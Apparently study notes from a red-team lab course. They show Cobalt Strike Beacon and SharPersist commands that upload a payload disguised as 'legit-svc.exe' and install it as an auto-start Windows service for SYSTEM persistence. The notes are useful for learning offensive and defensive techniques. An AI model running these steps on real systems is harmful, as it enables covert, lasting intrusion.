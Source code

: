
As we have seen user is running thourgh a proxy:

```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe - Internet Settings

====== InternetSettings ======

  HKCU                       ProxyEnable : 1
  HKCU                     ProxyOverride : *.cyberbotic.io;<local>
  HKCU                       ProxyServer : squid.dev.cyberbotic.io:3128
  
```

 So we cannot use http listeners for SYSTEM. We must use DNS or P2P.

## Windows Services

As we saw in in the previous chapter, there are many Windows services that run as SYSTEM.  Our various means of exploiting services for privilege escalation also act as persistence, but at the cost of breaking the legitimate service.  Instead, we can create our own service which won't impact on existing services.

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\legit-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: legit-svc

[+] SUCCESS: Service persistence added
```

> [!important] 
> Use svc payload since we are creating a service. 


This will create a new service in a STOPPED state, but with the START_TYPE set to AUTO_START.  This means the service won't run until the machine is rebooted.  When the machine starts, so will the service, and it will be waiting for a connection.

Use connect localhost 4444 to connect to the beacon.

